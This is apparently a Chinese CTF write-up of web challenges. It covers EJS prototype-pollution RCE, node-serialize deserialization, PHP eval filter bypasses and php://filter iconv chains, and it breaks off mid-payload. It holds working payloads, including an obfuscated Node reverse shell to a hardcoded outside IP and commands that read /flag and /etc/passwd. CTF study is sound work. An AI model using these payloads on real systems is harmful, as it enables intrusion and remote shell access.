



Web
ezejs(ejs模板原型链污染)
const express = require('express');
const app = express();
app.use(express.json());
app.set('view engine', 'ejs');
app.set('env', 'development');
app.set('views', './views');
users={"guest":"123456"}
function copy(object1, object2){
for (let key in object2) {
if (key in object2 && key in object1) {
copy(object1[key], object2[key])
} else {
object1[key] = object2[key]
}
}
}
// 首页展示
app.get('/', (req, res) => {
res.render('index');
});
// backdoor
app.post('/UserList',(req,res) => {
user = req.body
const blacklist = ['\\u','outputFunctionName','localsName','escape']
const hacker = JSON.stringify(user)
for (const pattern of blacklist){
if(hacker.includes(pattern)){
res.status(200).json({"message":"hacker!"});
return
}
}
copy(users,user);
res.status(200).json(user);
});
// 启动服务器
app.listen(80, () => {
console.log(`Server running at http://localhost:80`);
});ban了一些关键函数['\\u','outputFunctionName','localsName','escape']
这里使用destructuredLocals字段RCE，参考 从西湖Easyjs讨论nodejs引擎RCE
POST /UserList HTTP/1.1
Host: XXXX:XXXX
Content-Type: application/json
Content-Length: 169
{"__proto__":{"destructuredLocals":["a=a;global.process.mainModule.require('child_process').execSync('cat /flag|sh');//var __tmp2"]}}打完后访问首页的render渲染触发rce
ezlogin(nodejs反序列化)
同样也是js，不过这里考察了NodeJs反序列化
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
var cookieParser = require('cookie-parser');
var serialize = require('node-serialize');
app.use(bodyParser.urlencoded({ extended: true }));
app.use(cookieParser())
app.set('view engine', 'ejs');
app.set('views', './views');
users={"guest":"123456"}
function auth(req, res, next) {
if(req.cookies.token){
const user = serialize.unserialize(Buffer.from(req.cookies.token,'base64').toString());
if (!user.username) {
return res.status(401).redirect('/login');
}
}else{
return res.status(401).redirect('/login');
}
next();
}
app.get('/index',auth,function(req,res){
res.render("index");
});
app.get('/register',function(req,res){
res.render("register");
});
app.post('/register',function(req,res){
username = req.body.username;
password = req.body.password;
if (!username || !password) {
return res.status(400).send('用户名和密码都是必填项');
}
if (users[username]) {
return res.status(409).send('用户名已存在');
}
users[username] = password;
return res.status(201).send('用户注册成功');
});
app.get('/login',function(req,res){
res.render("login");
});
app.post('/login',function(req,res){
username = req.body.username;
password = req.body.password;
if (!username || !password) {
return res.status(400).send('用户名和密码都是必填项');
}
if (!(users[username])) {
return res.status(409).send('用户名不存在');
}else{
if(users[username] === password){
token=Buffer.from(serialize.serialize({'username':username,'isAdmin':false})).toString('base64')
res.cookie('token',token, {
maxAge: 900000,
httpOnly: true
});
return res.status(200).redirect('/index');
}else{
return res.status(200).send('密码错误');
}
}
});
// 启动服务器
app.listen(80, () => {
console.log(`Server running at http://localhost:80`);
});这里介绍一个项目Node.Js-Security-Course
利用nodejsshell.py生成反弹shell payload，然后根据源码进行序列化
python nodejsshell.py ip portlet serialize = require("node-serialize");
// let payload = `{
// "username": "_$$ND_FUNC$$_function (){let fs = require('child_process');let flag = fs.execSync('cat /etc/passwd > 1.txt').toString('utf-8');console.log('Flag is: ' + flag);return flag;}()",
// "isAdmin":false
// }`;
let payload = `{
"username": "_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,51,57,46,49,48,53,46,50,49,56,46,49,51,50,34,59,10,80,79,82,84,61,34,49,48,48,48,56,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()",
"isAdmin":false
}`;
// let unserializedPayload = serialize.unserialize(payload);
// console.log(unserializedPayload.username);
console.log("Your payload cookie will be: " + new Buffer(payload, "utf-8").toString("base64"));生成伪造好的token后放入cookie里面，访问index页面触发
ezrce
<?php
error_reporting(0);
if (isset($_GET['cmd'])) {
$cmd = $_GET['cmd'];
if (preg_match("/flag|cat|ls|echo|php|bash|sh|more| |less|head|tail|[\|\&\>\<]|eval|system|exec|popen|shell_exec/i", $cmd)) {
die("Blocked by security filter!");
} else {
eval($cmd);
}
} else {
highlight_file(__FILE__);
}
?>
Payload：
- ?cmd=passthru(‘n’.’l’.’${IFS}/fla?’);
- ?cmd=include$_GET[1];&1=php://filter/convert.base64-encode/resource=/flag
- ?cmd=(sy.(st).em)(hex2bin(“636174202f666c6167”)) //这里的hex是“cat /flag”
千年樱(php_filter构造任意字符串)
<!DOCTYPE html>
<html>
<head>
<title>read! read! read! we need read!!!</title>
</head>
<body style="background-image: url('/static/bg2.png'); background-size: cover; background-attachment: fixed; ">
<?php
include "dir.php";
highlight_file(__FILE__);
function waf($str){
if(preg_match("/http|php|file|:|=|\/|\?/i", $str) ){
die('bad hacker!!!');
}
}
$poc = $_POST['poc'];
waf($poc);
$filename = "php://filter/$poc/resource=/var/www/html/badChar.txt";
$result = file_get_contents($filename);
if($result === "sakura for ISCTF"){
echo "yes! master!";
eval($_POST['cmd']);
}
if($_GET['output'] == 114514 && !is_numeric($_GET['output'])){
var_dump($result);
}
?>
</body>
</html> 对于is_numeric可以采用%20或者%00绕过，不过badChar.txt的内容没啥用
hxp CTF 2021 - The End Of LFI?
PHP_INCLUDE_TO_SHELL_CHAR_DICT
<?php
$base64_payload = "YzJGcmRYSmhJR1p2Y2lCSlUwTlVSZz09"; /*sakura for ISCTF*/ /*<?php @eval($_REQUEST['cmd']);?>*/
$conversions = array(
'/' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4',
'0' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2',
'1' => 'convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4',
'2' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921',
'3' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE',
'4' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2',
'5' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.GBK.UTF-8|convert.iconv.IEC_P27-1.UCS-4LE',
'6' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.CSIBM943.UCS4|convert.iconv.IBM866.UCS-2',
'7' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2',
'8' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2',
'9' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB',
'A' => 'convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213',
'B' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2',
'C' => 'convert.iconv.UTF8.CSISO2022KR',
'D' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2',
'E' => 'convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT',
'F' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB',
'G' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90',
'H' => 'convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213',
'I' => 'convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213',
'J' => 'convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4',
'K' => 'convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE',
'L' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC',
'M' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T',
'N' => 'convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4',
'O' => 'convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775',
'P' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB',
'Q' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2',
'R' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4',
'S' => 'convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS',
'T' => 'convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103',
'U' => 'convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932',
'V' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB',
'W' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936',
'X' => 'convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932',
'Y' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361',
'Z' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16',
'a' => 'convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE',
'b' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE',
'c' => 'convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2',
'd' => 'convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2',
'e' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UTF16.EUC-JP-MS|convert.iconv.ISO-8859-1.ISO_6937',
'f' => 'convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213',
'g' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8',
'h' => 'convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE',
'i' => 'convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000',
'j' => 'convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16',
'k' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2',
'l' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE',
'm' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949',
'n' => 'convert.iconv.ISO88594.UTF16|convert.iconv.IBM5347.UCS4|convert.iconv.UTF32BE.MS936|convert.iconv.OSF00010004.T.61',
'o' => 'convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE',
'p' => 'convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4',
'q' => 'convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.GBK.CP932|convert.iconv.BIG5.UCS2',
'r' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.ISO-IR-99.UCS-2BE|convert.iconv.L4.OSF00010101',
's' => 'convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90',
't' => 'convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS',
'u' => 'convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61',
'v' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO_6937-2:1983.R9|convert.iconv.OSF00010005.IBM-932',
'w' => 'convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE',
'x' => 'convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS',
'y' => 'convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT',
'z' => 'convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937',
);
$filters = "convert.base64-encode|";
# make sure to get rid of any equal signs in both the string we just generated and the rest of the file
$filters .= "convert.iconv.UTF8.UTF7|";
foreach (str_split(strrev($base64_payload)) as $c) {
$filters .= $conversions[$c] . "|";
$filters .= "convert.base64-decode|";
$filters .= "convert.base64-encode|";
$filters .= "convert.iconv.UTF8.UTF7|";
}
$filters .= "convert.base64-decode";
$final_payload = "php://filter/{$filters}/resource=home";
var_dump($final_payload);可以通过exp构造任意字符串生成payload
poc=convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF-8.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-decode&cmd=system('tac flag.php');或者使用php_filter_chain_generator
python php_filter_chain_generator.py --chain 'sakura for ISCTF<?php'特别注意这个<?php,这是因为我们的工具构造链所得出的字符串除了目标字符串还会有很多冗余(垃圾数据),而php fileter中有一个过滤器:string.strip_tags,它可以删去字符串中html和php标签，也就是说，我们只要在生成的链子末尾加上这个过滤器，就可以把后边的冗余全部删去，得到的字符串就非常纯净了。
poc=convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOL